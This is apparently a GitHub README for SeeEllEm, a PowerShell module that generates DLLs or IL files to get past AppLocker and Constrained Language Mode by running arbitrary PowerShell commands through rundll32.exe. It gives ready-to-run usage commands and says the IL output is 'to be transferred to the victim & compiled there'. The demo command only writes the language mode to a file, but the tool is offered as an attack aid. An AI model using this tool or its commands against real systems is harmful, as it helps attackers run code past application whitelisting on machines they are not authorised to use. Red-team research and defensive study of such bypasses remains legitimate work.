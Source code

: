 # SeeEllEm
Automated Applocker/CLM dll generation which executes arbitrary powershell commands through rundll32.exe 


**Usage:**
```powershell
ipmo .\Invoke-SeeEllEm; Create-AppIl -DllName "ayylmao" -Entry "Poon" -Command "$ExecutionContext.SessionState.LanguageMode > C:\Windows\Tasks\bypass.txt" -Build
```
- Generates a dll called ayylmao.dll with the entrypoint of Poon with the command $ExecutionContext.SessionState.LanguageMode > C:\Windows\Tasks\bypass.txt

```powershell
ipmo .\Invoke-SeeEllEm; Create-AppIl -Entry "Poon" -Command "$ExecutionContext.SessionState.LanguageMode > C:\Windows\Tasks\bypass.txt"
```
- Generates a il to be transferred to the victim & compiled there, useful combined with https://github.com/FortyNorthSecurity/CLM-Base64 (Takes utf-8 not utf-16LE like windows powershell base64 does so cat file.il | base64 -w0)

